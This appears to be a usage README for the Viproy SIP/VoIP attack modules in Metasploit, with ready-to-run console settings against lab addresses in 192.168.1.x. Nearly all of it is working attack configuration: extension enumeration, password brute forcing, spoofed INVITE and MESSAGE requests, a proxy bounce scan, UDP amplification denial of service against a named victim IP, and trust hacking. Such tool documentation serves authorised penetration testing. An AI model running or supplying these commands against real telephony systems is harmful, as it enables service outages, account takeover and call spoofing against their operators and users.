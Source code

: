 #SIP Modules Usage

##Register 

use auxiliary/voip/viproy_sip_register 
set RHOSTS 192.168.1.222
set USERNAME 201
set FROM 201
set PASSWORD password123
set PROTO TCP
set LOGIN true
set DEBUG true
set VERBOSE true 
run

##Options 

use auxiliary/voip/viproy_sip_options 
set RHOSTS 192.168.1.221-222
set PROTO UDP
set DEBUG true
set VERBOSE true
run

##Negotiate 

use auxiliary/voip/viproy_sip_negotiate 
set RHOSTS 192.168.1.221-222
set PROTO UDP
set DEBUG true
set VERBOSE true
run


##Subscribe 

use auxiliary/voip/viproy_sip_subscribe
set RHOST 192.168.1.221
set PROTO UDP
set DEBUG true
set VERBOSE true
run

##Enumerate 

use auxiliary/voip/viproy_sip_enumerate 
set RHOST 192.168.1.221
set NUMERIC_USERS true
set NUMERIC_MIN 100
set NUMERIC_MAX 210
set VERBOSE false
run

##Brute Force 

use auxiliary/voip/viproy_sip_bruteforce 
set RHOST 192.168.1.221
set NUMERIC_USERS true
set NUMERIC_MIN 101
set NUMERIC_MAX 102
set PASSWORD letmein123
set VERBOSE true
set DEBUG true
run

##Invite

use auxiliary/voip/viproy_sip_invite 
show options 
set CPORT 5075
set RHOST 192.168.1.222
set FROM 203
set TO 201
set DEBUG true
set VERBOSE true
set LOGIN true
set PASSWORD test12345
set USERNAME 203
run

##Invite

use auxiliary/voip/viproy_sip_message
show options 
set RHOST 192.168.1.222
set FROM 203
set TO 201
set USERNAME 203
set LOGIN true
set MESSAGE_CONTENT test
set PASSWORD test12345
run

##Proxy Bounce Scan

use auxiliary/voip/viproy_sip_proxybouncescan 
show options 
set CPORT 5089
set RHOSTS 192.168.1.220-225
set RPORTS 5060-5070
set SIP_SERVER_IP 192.168.1.222
set SIP_SERVER_PORT 5060
run

##UDP Amplification DOS

use auxiliary/voip/viproy_sip_udpampdos 
set SIP_SERVERS 192.168.1.221
set VICTIM_IP 192.168.1.222
set VICTIM_PORT 5098
set INTERFACE en5
show options 
run

##UDP Trust Hacking

use auxiliary/voip/viproy_sip_trusthacking 
set SRC_RHOSTS 192.168.1.220-225
set SIP_SERVER 192.168.1.222
set THREADS 5
set INTERFACE eth0
run



